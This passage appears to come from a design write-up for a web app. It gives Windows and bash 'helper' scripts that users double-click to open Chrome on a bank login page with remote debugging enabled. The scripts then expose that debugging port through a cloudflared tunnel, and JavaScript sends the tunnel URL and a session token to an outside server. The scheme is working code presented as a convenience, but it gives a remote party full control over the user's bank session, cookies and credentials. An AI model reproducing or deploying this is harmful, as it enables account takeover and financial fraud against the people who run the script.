 
##### **Step 2: Generate OS-Specific Helper Scripts**  
The PWA dynamically generates a lightweight script (`.bat`/`.sh`) that contains the Chrome and tunnel commands. Users download and run this script (double-click), which automates the terminal steps.  

**Example for Windows (`.bat`)**:  
```batch
@echo off
:: Helper script for Windows (generated by PWA)
set TEMP_DIR=%TEMP%\chrome-session-%RANDOM%
set DEBUG_PORT=9222
set TARGET_URL=https://example-bank.com/login

:: Launch Chrome
"C:\Program Files\Google\Chrome\Application\chrome.exe" --remote-debugging-port=%DEBUG_PORT% --user-data-dir="%TEMP_DIR%" "%TARGET_URL%"

:: Wait for Chrome to launch
timeout /t 5 /nobreak > NUL

:: Start cloudflared tunnel and output URL to a temp file
cloudflared tunnel --url=http://localhost:%DEBUG_PORT% > "%TEMP%\tunnel-url.txt" 2>&1
```

**Example for macOS/Linux (`.sh`)**:  
```bash
#!/bin/bash
# Helper script for macOS/Linux (generated by PWA)
TEMP_DIR=$(mktemp -d)
DEBUG_PORT=9222
TARGET_URL="https://example-bank.com/login"

# Launch Chrome
google-chrome --remote-debugging-port=$DEBUG_PORT --user-data-dir=$TEMP_DIR "$TARGET_URL" &

# Wait for Chrome to launch
sleep 5

# Start cloudflared tunnel and output URL
cloudflared tunnel --url=http://localhost:$DEBUG_PORT > /tmp/tunnel-url.txt 2>&1
```  


##### **Step 3: Script-to-PWA Communication**  
The helper script writes the tunnel URL to a temporary file (e.g., `%TEMP%\tunnel-url.txt` on Windows). The PWA uses the [File System Access API](https://developer.mozilla.org/en-US/docs/Web/API/File_System_Access_API) (supported in Chrome/Edge) to:  
- Prompt the user to select the temporary file.  
- Read the tunnel URL and send it to the server automatically.  

```javascript
// PWA: Read tunnel URL from script-generated file
document.getElementById('importTunnel').addEventListener('click', async () => {
  const fileHandle = await window.showOpenFilePicker({
    suggestedName: 'tunnel-url.txt',
    types: [{ description: 'Text Files', accept: { 'text/plain': ['.txt'] } }]
  });
  const file = await fileHandle[0].getFile();
  const tunnelUrl = await file.text();
  // Send to server
  fetch(`https://your-server.com/api/tunnel`, {
    method: 'POST',
    body: JSON.stringify({ tunnelUrl, sessionToken })
  });
});
```  
